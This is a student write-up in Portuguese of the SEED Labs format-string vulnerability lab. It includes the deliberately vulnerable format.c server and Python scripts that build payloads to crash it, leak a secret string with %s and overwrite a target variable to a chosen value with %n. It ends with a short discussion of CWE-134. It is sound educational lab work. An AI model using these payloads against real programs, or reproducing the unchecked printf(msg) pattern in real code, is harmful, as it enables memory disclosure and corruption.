






# Format-String Vulnerability Lab
## Format-string attacks
### Task 1: 
O objetivo desta task é fazer o programa format.c que está a correr no servidor dar crash atravez de uma vulnerabilidade de *Format String*.  

O alvo do nosso ataque é a função printf que quando recebe mais especificadores de formato do que argumentos reais, não valida os ponteiros e passa a interpretar a partir da pilha. Em vez de verificar limites, o printf vai ler bytes da pilha como se fossem endereços válidos até que eventualmente provoque um crash por segfault (acesso a endereço inválido).

Para efetuar o ataque preparamos o ambiente com o código vulnerável format.c com os comandos da imagem 1 e iniciamos o container com o comando do terminal da esquerda da imagem 2. Com o servidor pronto enviamos a mensagem "%s" * 100, obrigando o programa a ler 100 entradas da pilha e tornando o crash inevitavél como vemos na imagem 2 pela falta da mensagem "(^_^)(^_^)  Returned properly (^_^)(^_^)"

__Imagem 1:__ Preparação do ambiente na pasta *category-software/Format_String* disponível em https://github.com/seed-labs/seed-labs.


__Imagem 2:__ Ataque bem sucedido.
.png)


__format.c:__ Código vulnerável.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>

/* Changing this size will change the layout of the stack.
 * The buffer size affects the layout of the stack.
 * Suggested value: between 10 and 400  */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif


#if __x86_64__
  unsigned long target = 0x1122334455667788;
#else
  unsigned int  target = 0x11223344;
#endif 

char *secret = "A secret message\n";

void dummy_function(char *str);

void myprintf(char *msg)
{
#if __x86_64__
    unsigned long int *framep;
    // Save the rbp value into framep
    asm("movq %%rbp, %0" : "=r" (framep));
    printf("Frame Pointer (inside myprintf):      0x%.16lx\n", (unsigned long) framep);
    printf("The target variable's value (before): 0x%.16lx\n", target);
#else
    unsigned int *framep;
    // Save the ebp value into framep
    asm("movl %%ebp, %0" : "=r"(framep));
    printf("Frame Pointer (inside myprintf):      0x%.8x\n", (unsigned int) framep);
    printf("The target variable's value (before): 0x%.8x\n",   target);
#endif

    // This line has a format-string vulnerability
    printf(msg);

#if __x86_64__
    printf("The target variable's value (after):  0x%.16lx\n", target);
#else
    printf("The target variable's value (after):  0x%.8x\n",   target);
#endif

}


int main(int argc, char **argv)
{
    char buf[1500];


#if __x86_64__
    printf("The input buffer's address:    0x%.16lx\n", (unsigned long) buf);
    printf("The secret message's address:  0x%.16lx\n", (unsigned long) secret);
    printf("The target variable's address: 0x%.16lx\n", (unsigned long) &target);
#else
    printf("The input buffer's address:    0x%.8x\n",   (unsigned int)  buf);
    printf("The secret message's address:  0x%.8x\n",   (unsigned int)  secret);
    printf("The target variable's address: 0x%.8x\n",   (unsigned int)  &target);
#endif

    printf("Waiting for user input ......\n"); 
    int length = fread(buf, sizeof(char), 1500, stdin);
    printf("Received %d bytes.\n", length);

    dummy_function(buf);
    printf("(^_^)(^_^)  Returned properly (^_^)(^_^)\n");

    return 1;
}

// This function is used to insert a stack frame between main and myprintf.
// The size of the frame can be adjusted at the compilation time. 
// The function itself does not do anything.
void dummy_function(char *str)
{
    char dummy_buffer[BUF_SIZE];
    memset(dummy_buffer, 0, BUF_SIZE);

    myprintf(str);
}
```

### Task 2A:
Esta task consiste em obter o número de "%x" necessários para conseguir ler novamente os primeiros 2 bytes do input.

Para isso utilizamos o mesmo setup da task 1 e corremos o comando *docker-compose up*. Com o servidor pronto preparamos um ficheiro file.txt com o código mystr.py para o ataque.

__mystr.py:__ 
```python
N = 1500
content = bytearray(0x0 for i in range(N))

content[0:4]  =  ("aaaa").encode('latin-1')

s = "%x\n"*100
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('file.txt', 'wb') as f:
    f.write(content)
```

Como não é possível saber onde se encontrará a string original é usada a string "aaaa" para melhor identificação do inicio do input seguida de um valor grande de "%x\n" para ser possível examinar a pilha inteira sem problemas.

Após executar o código do terminal da direita na imagem 3, para determinar quantos "%x" são necessários basta contar no log do servidor quantas linhas são apresentadas até aparecer a palavra 61616161 (hex de "aaaa" destacado na imagem 3) na saída.

__Imagem 3:__ execução do ataque.


Assim calculamos que são necessários 64 "%x" para imprimir até os primeiros 4 bytes do input.
Para demonstar o resultado obtido foi refeito o ataque com um input novo que contém 64 "%x" na imagem 4.

__Imagem 4:__ Testagem do valor obtido


### Task 2B:
Esta task consiste em imprimir a mensagem secreta no endereço __0x080b4008__ (obtido a partir do output do servidor na imagem 2). Para isso podemos modificar o código mystr.py para que, quando ler os primeiros 4 bytes da própria string utilize esse endereço que colocamos nessa posição para imprimir a mensagem secreta.

__mystr.py (modificado):__
```python
N = 1500
content = bytearray(0x0 for i in range(N))

adress  = 0x080b4008 # Endereço da mensagem secreta
content[0:4]  =  (adress).to_bytes(4,byteorder='little')
leng = 4

# imprimir lixo até atingir a própria string
s = "%x\n"*63 # 64-1 para não consumir os primeiros 4 bytes
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt
leng += len(fmt)

# imprimir a mensagem secreta na posição dada pelos primeiros 4 bytes da string com %s
specifier = "%s"
fmt = (specifier).encode('latin-1')
content[leng:leng+len(fmt)] = fmt

with open('file.txt', 'wb') as f:
    f.write(content)
```

Assim executamos o mesmo ataque da task 2A e recebemos a mensagem secreta no output do servidor como vemos na imagem 5.

__Imagem 5:__ execução do ataque.


### Task 3A:
Nesta task iremos reescrever a variável no endereço __0x080e5068__ (obtido a partir do output do servidor na imagem 2) utilizando o especificador de formato __%n__ que escreve no endereço indicado o número de bytes já impressos até ao momento.

Para isso alteramos o código __mystr.py__ cujas váriaveis __adress__ e __specifier__ comtém agora os valores __0x080e5068__ e __'%n'__ respetivamente e executamos o mesmo ataque da task 2B. Assim verificamos que o valor original __0x11223344__ foi alterado para __0x0000012b__.

__Imagem 6:__ execução do ataque.


### Task 3B:
Nesta task a variável que alteramos anteriormente tem que ser alterada para um valor específico (__0x5000__).
Assim modificamos __mystr.py__ para que formate o primeiro valor hexadecimal lido com o número de espaços necessário para reescrever o valor correto.  
Atingimos o valor obtido no código subtraindo ao valor pretendido os 4 caracteres do endereço do começo mais os restantes 62 números hexadecimais lidos necessários para chegar novamente à string, cuja formatação os faz ter 9 caracteres cada.

__mystr.py (modificado)__
```python
N = 1500
content = bytearray(0x0 for i in range(N))

adress  = 0x080e5068 # Endereço da mensagem secreta
content[0:4] = (adress).to_bytes(4,byteorder='little')
leng = 4

# imprimir lixo até atingir a própria string
# adicionar caracteres ao primeiro hexadecimal lido para atingir o valor da variável esperado

# numero desejado - numero de caracteres imprimidos por outras funções.
# "%8x\n"*62  ==> 62*9
# adress  = 0x080e5068 ==> 4
padding = int(0x5000) - (62*9 + 4) 
s = f"%{padding}x"
fmt = (s).encode('latin-1')
content[leng:leng+len(fmt)] = fmt
leng += len(fmt)

s = "%8x\n"*62 # 64-2 para não consumir os primeiros 4 bytes
fmt  = (s).encode('latin-1')
content[leng:leng+len(fmt)] = fmt
leng += len(fmt)

# modificar a variável na posição dada pelos primeiros 4 bytes da string com %n
specifier = "%n"
fmt = (specifier).encode('latin-1')
content[leng:leng+len(fmt)] = fmt

with open('file.txt', 'wb') as f:
    f.write(content)
```

Finalmente executamos o mesmo ataque da task 3A e verificamos que o valor da variável alvo é o desejado.

__Imagem 7:__ execução do ataque.


## Security implications

Qualquer programa que use dados controlados pelo utilizador diretamente como format string tem uma vulnerabilidade de __CWE-134__, mesmo que, na prática, não seja possível lançar um exploit.  
Das tarefas realizadas, apenas a Task 1 funcionaria sempre nas condições descritas, porque é o único ataque que não depende do fornecimento de endereços como argumentos pelo atacante. As Tasks 2 e 3 exigem a leitura de endereços que apontem para as variáveis alvo, por isso essas tarefas falhariam se não existirem endereços úteis na stack. Ainda assim, Tasks 2 e 3 podem ser completadas se for possível descobrir na stack os endereços das variáveis que queremos atacar.